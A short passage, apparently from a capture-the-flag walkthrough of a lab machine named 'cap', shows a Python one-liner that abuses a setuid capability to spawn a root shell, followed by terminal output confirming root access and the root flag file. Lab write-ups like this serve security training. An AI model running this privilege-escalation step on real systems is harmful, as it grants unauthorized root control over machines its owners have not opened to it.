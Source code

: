 ```bash
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'
root@cap:~# whoami
root
root@cap:~# ls /root/root.txt 
/root/root.txt
root@cap:~# 
```
{: .nolineno}















